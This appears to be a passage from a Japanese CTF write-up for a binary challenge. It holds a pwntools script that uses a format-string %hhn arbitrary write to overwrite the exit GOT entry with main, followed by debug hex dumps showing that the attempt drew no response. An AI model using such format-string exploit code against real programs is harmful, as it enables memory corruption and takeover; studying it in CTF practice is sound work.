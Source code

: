 ```python
from pwn import *
context.log_level = 'debug'
r = remote('127.0.0.1', 31337)
elf = ELF("./chal")

def aaw(where, what, leng=6):
    payload = b''
    offset = 0
    for i in range(leng):
        c = ((what >> (i * 8)) - offset) % 0x100
        if c == 0:
            c = 0x100
        payload += f"%{c}c%{i+16}$hhn".encode()
        offset += c
    payload = payload.ljust(0x50, b'\x00')
    for i in range(leng):
        payload += p64(where + i)
    payload = payload.ljust(0x100, b'\x00')
    r.send(payload)

aaw(elf.got.exit, elf.sym.main)
r.send(b'%p'.ljust(0x100, b'\x00'))
r.interactive()
```

ところがうんともすんとも言いません。
```
$ python3 test.py 
[+] Opening connection to 127.0.0.1 on port 31337: Done
[*] '/home/jt/ctf/fullybuffered/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[DEBUG] Sent 0x100 bytes:
    00000000  25 31 31 38  63 25 31 36  24 68 68 6e  25 31 35 35  │%118│c%16│$hhn│%155│
    00000010  63 25 31 37  24 68 68 6e  25 34 37 63  25 31 38 24  │c%17│$hhn│%47c│%18$│
    00000020  68 68 6e 25  31 39 32 63  25 31 39 24  68 68 6e 25  │hhn%│192c│%19$│hhn%│
    00000030  32 35 36 63  25 32 30 24  68 68 6e 25  32 35 36 63  │256c│%20$│hhn%│256c│
    00000040  25 32 31 24  68 68 6e 00  00 00 00 00  00 00 00 00  │%21$│hhn·│····│····│
    00000050  28 40 40 00  00 00 00 00  29 40 40 00  00 00 00 00  │(@@·│····│)@@·│····│
    00000060  2a 40 40 00  00 00 00 00  2b 40 40 00  00 00 00 00  │*@@·│····│+@@·│····│
    00000070  2c 40 40 00  00 00 00 00  2d 40 40 00  00 00 00 00  │,@@·│····│-@@·│····│
    00000080  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000100
[DEBUG] Sent 0x100 bytes:
    00000000  25 70 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │%p··│····│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000100
[*] Switching to interactive mode
$ %p
[DEBUG] Sent 0x3 bytes:
    b'%p\n'
$  
```

